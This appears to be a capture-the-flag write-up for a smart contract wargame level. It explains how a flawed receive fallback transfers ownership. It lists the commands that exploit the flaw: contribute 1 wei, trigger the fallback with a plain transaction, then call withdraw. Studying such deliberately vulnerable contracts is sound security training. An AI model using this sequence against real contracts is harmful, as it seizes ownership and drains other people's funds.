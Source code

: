 ## 1) Catch
The poorly implemented fallback function "receive" changes an important logic of the contract
assigning the ownership to the last person who triggered this fallback by doing one this actions: <br>
    - Calling an non existing function
    - Calling an existing function without passing required data
    - Sending ether to the contract without any data

## 2) Solutions
    - Wasting too much time and effort depositing 1001 times 0.001 ether each time so the ownership changes.
    - Triggering the fallback function.

    Approach b) Sending 1wei to the contract will trigger the fallback function.

        await contract.contribute({value: 1}) // Because of the logic of the fallback, the user must contribute first.

        // Here is where the fallback is triggered
        await contract.sendTransaction({
        from: player,
        value: 1
        })

        // Because you are now the owner, this txn will go through.
        await contract.withdraw()
